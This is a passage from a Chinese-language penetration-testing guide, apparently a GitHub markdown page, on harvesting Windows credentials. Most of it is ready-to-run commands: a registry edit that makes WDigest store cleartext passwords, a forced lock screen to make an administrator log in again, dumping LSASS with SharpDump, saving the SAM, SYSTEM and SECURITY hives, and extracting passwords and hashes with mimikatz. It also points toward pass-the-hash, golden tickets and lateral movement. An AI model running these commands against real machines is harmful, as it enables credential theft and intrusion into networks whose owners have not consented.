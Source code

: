> 手工修改注册表 + 强制锁屏 + 等待目标系统管理员重新登录+导出Hash+本地mimikatz抓明文

```bash
#修改注册表来让Wdigest Auth保存明文口令
reg add HKLMSYSTEMCurrentControlSetControlSecurityProvidersWDigest /v UseLogonCredential /t REG_DWORD /d 1 /f

#恢复
reg add HKLMSYSTEMCurrentControlSetControlSecurityProvidersWDigest /v UseLogonCredential /t REG_DWORD /d 0 /f
```

强制锁屏

```bash
rundll32.exe user32.dll,LockWorkStation
```

## 导出NTML Hash

### Sharpdump+ mimikatz本地读取

需要.NET 3.5版本框架，需要系统管理员权限

下载地址：https://github.com/GhostPack/SharpDump 

Dump 的文件默认是 bin 后缀，拖到本地机器把 bin 重命名为 zip，然后解压出来再丢给 mimikatz

```bash
mimikatz.exe “sekurlsa::minidump debug45” “sekurlsa::logonPasswords full” “exit”
```

### 注册表 + mimikatz本地读取

**（1）导出SAM和System文件**

 Win2000和XP需要先提到`SYSTEM`，Server 03开始直接可以reg save 也需要`系统管理员权限`

```bash
reg save hklm\sam sam.hive
reg save hklm\system system.hive
reg save hklm\security security.hive
```

**（2）mimikatz本地读取 NTML Hash**

> mimikatz可以从内存中提取明文编码、散列值、PIN和Kerberos票据；
>
> 还可以用来执行哈希传递、票据传递和构建黄金票据（Golden Ticket）。

```bash
#将导出的文件和mimikatz放到同一目录
mimikatz.exe "lsadump::sam /sam:sam.hive /system:system.hive /security:security.hive" exit
```

# 横向获取主机权限
